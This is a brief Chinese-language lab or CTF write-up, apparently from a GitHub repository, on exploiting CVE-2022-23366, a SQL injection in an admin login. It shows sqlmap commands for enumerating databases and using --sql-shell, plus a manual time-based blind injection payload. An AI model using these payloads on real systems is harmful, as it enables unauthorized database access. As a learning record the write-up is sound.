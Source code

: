 # CVE-2022-23366
找到admin登录界面,抓包简单测试一下loginid=1,loginid=1',1"没有报错信息,测试是否为数字型1 and 1=2
结果只会出现
![](vx_images/286897504921473.png)
可能需要用到盲注,直接sqlmap
```
sqlmap -r /home/cryingtor/桌面/1.txt --dbs 
```
![](vx_images/431905654360262.png)
sqlmap用时间盲注跑出来
手动测试一下
```
admin'and if(database()="ctf",sleep(10),0)#
```
![](vx_images/407547455349206.png)
这里学习一下用--sql-shell参数
![](vx_images/52694003151318.png)